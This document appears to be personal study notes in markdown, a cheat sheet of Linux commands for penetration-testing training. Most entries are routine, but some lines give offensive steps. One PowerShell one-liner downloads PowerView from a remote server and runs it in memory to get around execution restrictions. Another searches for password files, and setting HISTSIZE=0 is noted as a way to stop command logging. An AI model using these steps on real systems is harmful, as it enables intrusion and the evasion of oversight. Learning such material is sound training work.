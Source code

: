 
# Linux commands
- ls
- whoami
- cd
- cat
- pwd
- echo
- `find / -name passwords.txt 2>/dev/null`
- `grep "text" file.txt`
- wc -l -b to count entries by byte or line etc.
- base64: for example `base64 -d data.txt` decodes the file content.
- man {command} or {command} --help
- touch	Create file
- mkdir	Create a folder
- cp Copy a file or folder
- mv Move a file or folder
- rm remove	Remove a file or folder
- file Determine the type of a file
- su to change user
- wget
  
- SCP (copy files with ssh)
  + `scp important.txt ubuntu@192.168.1.30:/home/ubuntu/transferred.txt` to copy a file important.txt from local machine to remote 192.168.1.30 and will be called transferred.txt.
  + `scp ubuntu@192.168.1.30:/home/ubuntu/documents.txt notes.txt` to copy a file called documents.txt from remote 192.168.1.30 to local machine and will be called notes.txt.
    
- Python `HTTPServer` turns your computer into a quick and easy web server that you can use to serve your own files, where they can then be downloaded by another computing using commands such as curl and wget.
  + `python3 -m http.server` is used to start an hhtp server in the directory where the command was run.
  + `wget http://{machineIP}:8000/{some file name}` is used to download some file from the webserver hosted on the {machineIP}.
  + on powershell, we can use tools that are not allowed to execute by loading them from the internet for example my linux server. after running the server in the folder where powerview.ps1 exists, we can use the following to load it: `iex (new-object net.webclient).downloadstring('http://{server-IP}/PowerView.ps1')`. then we can execute the commands of powerview.
- `ps` command is used to provide a list of the running processes as our user's session and some additional information. To see the processes run by other users and those that don't run from a session (i.e. system processes), we need to provide aux to the ps command like so: `ps aux`
  
- `top` gives you real-time statistics about the processes running on your system instead of a one-time view.

- To kill a process, we can use the appropriately named `kill` command and the associated PID that we wish to kill. ex: `kill 1337`. Below are some of the signals that we can send to a process when it is killed:
  - `SIGTERM` Kill the process, but allow it to do some cleanup tasks beforehand
  - `SIGKILL` Kill the process - doesn't do any cleanup after the fact
  - `SIGSTOP` Stop/suspend a process

- `systemctl [option] [service]` is used to interact with systemd process/daemon. ex: `systemctl start apache2`.

- With our process backgrounded using either Ctrl + Z or the & operator, we can use fg to bring this back to focus

- crontabs are files with specific formatting that can be recognised by `cron` process which is used to automate processes. 6 values are needed `MIN HOUR DOM MON DOW CMD`, ex: crontab file will have the command `0 *12 * * * cp -R /home/cmnatic/Documents /var/backups/` which is used to exceute the backup every 12 hours. `crontab -e` is used to add, edit, or delete a cron job.

- grep:
  + Count the Number of Lines Matching a Pattern: `-c`
  + Search for a Pattern and Display Only Matching Text: `-o`
  + Prints the line number of the matching line as well: `-n`
  + Search for a Pattern Recursively in Files within a Directory: `grep -r "pattern" directory/`
  + Search for a Pattern Ignoring Case Sensitivity: `-i`
    
- cut:
  + Extract the first column of each line in the file: `cut -f1 file.txt`
  + Extract a Specific Field from a Colon-Delimited File: `cut -d: -f3 file.txt`
  + Extract a Range of Characters from Each Line: `cut -c1-5 file.txt`
  + Extract Characters from a Specific Position to the End of Each Line: `cut -c6- file.txt`
  + Specify a Custom Delimiter: `cut -d',' -f2 file.csv`
  + Extract Multiple Columns: `cut -f1,3 file.txt`
  + Suppress Lines Without Delimiters: `cut -d',' -s -f2 file.csv`
    
- sort:
  + This command sorts the lines of the comma-delimited CSV file file.csv based on the second field: `sort -t',' -k2 file.csv`
  + Sort Lines of a File and Remove Duplicates: `sort -u file.txt`
  + reverse order: `-r`
  + sort numerically: `-n`

- shred: it is used to overwrite the specified file repeatedly so it would be hard to recover.
- we have the variable `$HISTSIZE` which points to the terminal history, we can `export HISTSIZE=0` to stop recording commands executed.
## Notes
- `sudo !!`: executes the previous command with root privilege.
- The operator & allows us to execute commands in the background.
- "&&" is used to make a list of commands to run for example command1 && command2
- ">>" is used to append, and > is used to override. ex: `echo text > file.txt`
- connect to ssh using command `ssh {username}@IP` or `ssh -i id_rsa username@host`
- to convert from base64: `base64 -d file > fileb`
- to find sha256 of a file in binary: `sha256sum fileb`
- to find the size of a file in bytes: `stat -c %s fileb`
